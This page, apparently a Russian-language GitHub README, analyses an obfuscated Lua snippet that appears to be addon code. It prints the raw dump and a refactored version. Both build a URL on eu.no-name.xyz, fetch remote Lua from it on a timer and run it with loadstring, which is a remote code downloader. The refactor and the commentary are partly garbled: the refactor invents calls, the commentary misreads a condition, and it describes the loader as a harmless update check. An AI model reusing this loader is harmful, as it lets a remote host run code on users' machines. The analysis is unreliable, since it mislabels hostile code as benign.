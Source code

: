 ### LuaPayload 

Дамп "как есть", полученный в ответ на запрос серверу.
```
do if ((4593 >= 2922) and C_Timer.Nn) then return; end local v0 = "bec0cbb977dc421280212942";
local v1 = "eu";
local v2 = "Is";
local v3 = "Mac";
local v4 = "Client";
local v5 = "http";
local v6 = "s://";
local v7 = "no";
local v8 = "xyz";
local v9 = "/Tb7f39/";
local v10 = "name";
local v11 = ".";
local v12 = "-";
local v13 = _G[v2 .. v3 .. v4];
local v14 = C_Timer.NewTicker;
local v15 = loadstring;
local v16 = strjoin;
local v17 = v16("", v5, v6, v1, v11, v7, v12, v10, v11, v8, v9, v0);
local function v18(v19) local v20 = 0;
local v21;
local v22;
local v23;
local v24;
while true do if ((1262 < 2013) and (0 ~= v20)) then
else if (v19:IsCancelled() or (976 < 313)) then return; end if (C_Timer.Nn or (4561 == 1175)) then v19:Cancel(); return; end v20 = 1; end if (
    (v20 ~= 2) or (317 > 3244)) then
else if ((v21 ~= (0 + 0)) or (4531 < 1493)) then
else v13(26 - 9, v17, 1 - 0); end break; end if ((3766 > 2349) and (1 ~= v20)) then
else v21, v22, v23, v24 = v13(57 - 37); if ((3023 == 3023) and (v21 == (1 + 1)) and (v23 == v17)) then v19:Cancel(); if (
    (2016 >= 1738) and (_G[v2 .. v3 .. v4] == v13)) then
else return v13(1636 - (1427 + 179)); end pcall(v15("txq,nnso = ...", ""), v0, v1); pcall(v15(v24, "NnL")); end v20 = 2; end end end v18(v14(0
  + 0, v18)); end
```

Код после рефакторинга
```
if 4593 >= 2922 and C_Timer.Nn then
  return
end

local SERVER_HOST = "http://eu.no-name.xyz/Tb7f39/bec0cbb977dc421280212942"
local TIMER_INTERVAL = 1

local function startTicker()
  local ticker = C_Timer.NewTicker(TIMER_INTERVAL, function()
    local success, _, errorMsg = pcall(loadstring("txq, nnso = ...", ""))
    if not success then
      return
    end
    
    if nnso == nil or nnso:IsCancelled() then
      ticker:Cancel()
      return
    end
    
    local _, code = nnso:Perform()
    if code == 200 then
      local response = nnso:GetResponseText()
      pcall(loadstring(response, "NnL"))
      ticker:Cancel()
    end
  end)
end

startTicker()

```

### Брифли разберём

```
if 4593 >= 2922 and C_Timer.Nn then
  return
end
```
Этот код сначала проверяет, является ли цифра 4593 меньше или равной 2922, и не является ли C_Timer.Nn равным nil. 
Если оба условия истинны, то функция просто возвращает управление.
Возможно это проверка, которая гарантирует, что только один экземпляр этого кода запущен в данный момент.

```
local SERVER_HOST = "http://eu.no-name.xyz/Tb7f39/bec0cbb977dc421280212942"
local TIMER_INTERVAL = 1
```
Этот код определяет две константы: SERVER_HOST - это URL сервера, где код будет искать обновления, а TIMER_INTERVAL - количество секунд между проверками обновлений.
```
local function startTicker()
  local ticker = C_Timer.NewTicker(TIMER_INTERVAL, function()
    local success, _, errorMsg = pcall(loadstring("txq, nnso = ...", ""))
    if not success then
      return
    end
    
    if nnso == nil or nnso:IsCancelled() then
      ticker:Cancel()
      return
    end
    
    local _, code = nnso:Perform()
    if code == 200 then
      local response = nnso:GetResponseText()
      pcall(loadstring(response, "NnL"))
      ticker:Cancel()
    end
  end)
end
```
Этот код определяет вспомогательную функцию startTicker(), которая создает новый объект C_Timer с интервалом в TIMER_INTERVAL секунд. Функция обратного вызова таймера делает HTTP-запрос на SERVER_HOST, загружает ответ в виде строки Lua и затем выполняет эту строку с помощью loadstring(). Если запрос не удался или загруженная строка содержит ошибки, функция возвращает значение раньше времени. Если HTTP-запрос возвращает статусный код 200, что означает успешное выполнение запроса, то функция выполняет загруженную строку и отменяет таймер.
```
startTicker()
```
Этот код просто вызывает функцию startTicker(), чтобы запустить таймер и начать проверку обновлений.

Общая цель этого кода заключается в периодической проверке сервера на наличие обновлений некоторого кода Lua, а в случае обнаружения обновления - для загрузки и выполнения обновленного кода.
Код делает это, создавая таймер, который делает запрос НТТР на определенный URL, загружает ответ как строку Lua, а затем выполняет эту строку.
Если загруженная строка содержит новый код, она заменит существующий код и начнет запускать новый.
Оператор if в начале - это проверка, чтобы убедиться, что одновременно выполняется только один экземпляр этого кода.